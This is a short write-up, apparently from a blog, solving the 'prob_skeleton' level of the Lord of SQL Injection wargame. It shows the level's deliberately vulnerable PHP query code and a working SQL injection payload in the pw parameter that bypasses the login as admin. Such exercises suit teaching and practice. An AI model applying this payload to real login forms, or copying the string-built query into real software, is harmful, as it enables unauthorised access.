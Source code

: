 ```yaml
---
layout: post
title:  "los prob_skeleton"
date:   2019-08-27
excerpt: "Lord of Sql Injection"
tag:
- los
- sqli
- wargame
- webhacking
comments: true
---
```

> query : select id from prob_skeleton where id='guest' and pw='' and 1=0

~~~ php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
~~~

# Solve

* and > or 우선연산 -> false or true or false -> true 

### ?pw=noonzib' or id='admin' or id='noonzib

## SKELETON Clear!

